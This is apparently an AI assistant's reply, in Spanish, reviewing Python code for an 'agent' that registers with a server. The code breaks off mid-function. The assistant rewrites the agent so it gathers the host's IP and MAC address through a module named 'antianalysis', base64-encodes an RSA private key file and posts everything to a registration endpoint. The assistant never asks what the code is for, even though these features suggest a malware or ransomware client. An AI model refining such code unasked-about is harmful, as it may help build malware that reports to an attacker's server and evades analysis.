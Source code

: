 ## Response:
El código que has proporcionado tiene la idea de registrar un agente en un servidor usando su IP, MAC y una clave privada en formato `.PEM`. Hay varios aspectos que podemos revisar o mejorar. A continuación, te ofrezco algunos puntos clave a considerar y mejoras que puedes hacer.

1.  **Asegurarse de que la clave privada se maneje correctamente**: La clave privada en formato `.PEM` debe ser leída de manera binaria y, en lugar de convertirla a texto con `.decode('utf-8')`, podrías enviarla como un archivo o en un formato adecuado como base64, ya que las claves privadas pueden contener caracteres no ASCII.
    
2.  **Uso de `antianalysis.get_mac_address()`**: Si estás usando una librería externa llamada `antianalysis` para obtener la dirección MAC, asegúrate de que la librería esté instalada y funcione correctamente, ya que no es una librería estándar en Python.
    
3.  **Transporte de datos**: En el caso de que quieras enviar datos como un archivo o de manera más segura, considera usar un archivo de tipo multipart para enviar la clave privada y otros datos al servidor.
    
4.  **Seguridad**: Si estás manejando claves privadas, considera usar un canal seguro (como HTTPS) en lugar de HTTP para proteger la transmisión de los datos.
    

Aquí tienes una versión mejorada del código con algunos de estos puntos en mente:

```python
import requests
import socket
import uuid
import os
import antianalysis
import base64

def get_ip_address():
    ip = socket.gethostbyname(socket.gethostname())
    return ip

def load_private_key():
    try:
        with open("rsa_private.pem", 'rb') as f:
            private_key = f.read()
        return base64.b64encode(private_key).decode('utf-8')  # Codificando la clave en base64 para transmitirla
    except FileNotFoundError:
        print("El archivo de clave privada no fue encontrado.")
        return None
    
# Función principal del agente
def register_agent():
    # Obtener IP y MAC del agente
    ip = get_ip_address()
    mac = antianalysis.get_mac_address()
    private_key = load_private_key()
    
    if private_key is None:
        print("No se pudo cargar la clave privada. No se puede registrar el agente.")
        return
    
    # Cargar la clave privada desde el archivo
    server_url = 'http://127.0.0.1:5000/register_agent'
    data = {
        'ip': ip,
        'mac': mac,
        'private_key': private_key
    }
    response = requests.post(server_url, data=data)
    if response.status_code == 200:
```